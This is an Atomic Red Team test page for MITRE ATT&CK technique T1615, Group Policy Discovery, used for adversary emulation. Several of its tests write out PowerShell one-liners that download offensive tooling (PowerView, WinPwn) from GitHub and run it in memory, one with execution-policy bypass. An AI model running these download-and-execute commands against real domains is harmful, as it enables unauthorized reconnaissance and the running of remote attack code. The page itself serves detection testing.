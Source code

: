 # T1615 - Group Policy Discovery

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1615)

<blockquote>Adversaries may gather information on Group Policy settings to identify paths for privilege escalation, security measures applied within a domain, and to discover patterns in domain objects that can be manipulated or used to blend in the environment. Group Policy allows for centralized management of user and computer settings in Active Directory (AD). Group policy objects (GPOs) are containers for group policy settings made up of files stored within a predictable network path `\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016)

Adversaries may use commands such as <code>gpresult</code> or various publicly available PowerShell functions, such as <code>Get-DomainGPO</code> and <code>Get-DomainGPOLocalGroup</code>, to gather information on Group Policy settings.(Citation: Microsoft gpresult)(Citation: Github PowerShell Empire) Adversaries may use this information to shape follow-on behaviors, including determining potential attack paths within the target network as well as opportunities to manipulate Group Policy settings (i.e. [Domain Policy Modification](https://attack.mitre.org/techniques/T1484)) for their benefit.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Display group policy information via gpresult](#atomic-test-1---display-group-policy-information-via-gpresult)

- [Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView](#atomic-test-2---get-domaingpo-to-display-group-policy-information-via-powerview)

- [Atomic Test #3 - WinPwn - GPOAudit](#atomic-test-3---winpwn---gpoaudit)

- [Atomic Test #4 - WinPwn - GPORemoteAccessPolicy](#atomic-test-4---winpwn---gporemoteaccesspolicy)

- [Atomic Test #5 - MSFT Get-GPO Cmdlet](#atomic-test-5---msft-get-gpo-cmdlet)

<br/>

## Atomic Test #1 - Display group policy information via gpresult

Uses the built-in Windows utility gpresult to display the Resultant Set of Policy (RSoP) information for a remote user and computer
The /z parameter displays all available information about Group Policy. More parameters can be found in the linked Microsoft documentation
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/gpresult
https://unit42.paloaltonetworks.com/emissary-trojan-changelog-did-operation-lotus-blossom-cause-it-to-evolve/
Turla has used the /z and /v parameters: https://www.welivesecurity.com/wp-content/uploads/2020/05/ESET_Turla_ComRAT.pdf

**Supported Platforms:** Windows

**auto_generated_guid:** 0976990f-53b1-4d3f-a185-6df5be429d3b

#### Attack Commands: Run with `command_prompt`!

```cmd
gpresult /z
```

<br/>
<br/>

## Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView

Use PowerView to Get-DomainGPO This will only work on Windows 10 Enterprise and A DC Windows 2019.

**Supported Platforms:** Windows

**auto_generated_guid:** 4e524c4e-0e02-49aa-8df5-93f3f7959b9f

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/86921fbbf4945441e2f9d9e7712c5a6e96eed0f3/empire/server/data/module_source/situational_awareness/network/powerview.ps1'); Get-DomainGPO"
```

<br/>
<br/>

## Atomic Test #3 - WinPwn - GPOAudit

Check domain Group policies for common misconfigurations using Grouper2 via GPOAudit function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** bc25c04b-841e-4965-855f-d1f645d7ab73

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPOAudit -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #4 - WinPwn - GPORemoteAccessPolicy

Enumerate remote access policies through group policy using GPORemoteAccessPolicy function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 7230d01a-0a72-4bd5-9d7f-c6d472bc6a59

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPORemoteAccessPolicy -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #5 - MSFT Get-GPO Cmdlet

The Get-GPO cmdlet gets one Group Policy Object (GPO) or all the GPOs in a domain. Tested on Windows Server 2019 as a domain user with computer joined to domain. Reference: https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gpo?view=windowsserver2022-ps

**Supported Platforms:** Windows

**auto_generated_guid:** 52778a8f-a10b-41a4-9eae-52ddb74072bf

#### Inputs:

| Name       | Description                                                                                                                                                                    | Type   | Default Value                |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------ | ---------------------------- |
| gpo_output | The output of the Get-GPO cmdlet                                                                                                                                               | string | $env:temp&#92;GPO_Output.txt |
| gpo_param  | You can specify a GPO by its display name or by its globally unique identifier (GUID) to get a single GPO, or you can get all the GPOs in the domain through the All parameter | string | -All                         |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Get-GPO -Domain $ENV:userdnsdomain #{gpo_param} >> #{gpo_output}
```

#### Cleanup Commands:

```powershell
del $env:temp\GPO_Output.txt -erroraction silentlycontinue
```

#### Dependencies: Run with `powershell`!

##### Description: Add Rsat.ActiveDirectory.DS

##### Check Prereq Commands:

```powershell
if(Get-WindowsCapability -Online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```

##### Get Prereq Commands:

```powershell
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```

##### Description: Add Rsat.GroupPolicy.Management.Tools ###Two RSAT Modules needed for this to work on Win10, WinServer 2019 works by default. This will take a long time (almost 2 minutes) to install RSAT Manually###.

##### Check Prereq Commands:

```powershell
if(Get-WindowsCapability -Online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```

##### Get Prereq Commands:

```powershell
Add-WindowsCapability -online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0
```

<br/>
